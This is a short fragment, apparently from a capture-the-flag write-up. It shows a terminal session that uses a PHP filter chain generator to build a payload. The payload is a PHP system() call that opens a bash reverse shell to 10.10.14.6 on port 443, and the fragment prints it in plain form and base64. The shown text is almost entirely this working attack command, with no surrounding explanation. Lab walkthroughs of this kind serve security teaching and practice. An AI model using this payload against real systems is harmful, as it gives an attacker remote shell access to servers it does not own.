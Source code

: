     oxdf@hacky$ python php_filter_chain_generator.py --chain '<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?>'
    [+] The following gadget chain will generate the following code : <?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.6/443 0>&1 \""); ?> (base64 value: PD9waHAgc3lzdGVtKCJiYXNoIC1jIFwiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIFwiIik7ID8+)